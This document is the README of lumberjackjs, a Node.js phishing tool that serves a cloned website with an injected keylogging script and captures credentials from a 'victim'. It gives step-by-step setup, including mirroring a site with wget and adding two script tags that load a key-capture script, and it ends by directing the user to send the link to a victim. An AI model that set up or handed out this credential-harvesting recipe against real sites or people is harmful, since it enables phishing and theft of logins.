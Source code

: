 lumberjackjs
============

Express and socket.io to capture and send credentials from a victim. Uses client side Javascript to capture keys for seamless site cloning. Simply clone a site, add 2 lines of html, and you're good to go. Send any link to your victim as the server uses a catch all url '*'. No need to setup a full mirror and duplicate directory structure.

####Quick Start####

1. Clone repo and install modules

        git clone https://github.com/tomsteele/lumberjackjs.git
        cd lumberjackjs
        npm install
        
2. Clone a site and mv to index.html

        wget -mk <some site>
        mv <some site>.html index.html
        
3. Add two lines to index.html

        <script src="/socket.io/socket.io.js"></script>
        <script src="/k.js"></script>

4. Start server

        sudo node app

5. Send a link to your victim and capture credentials
        

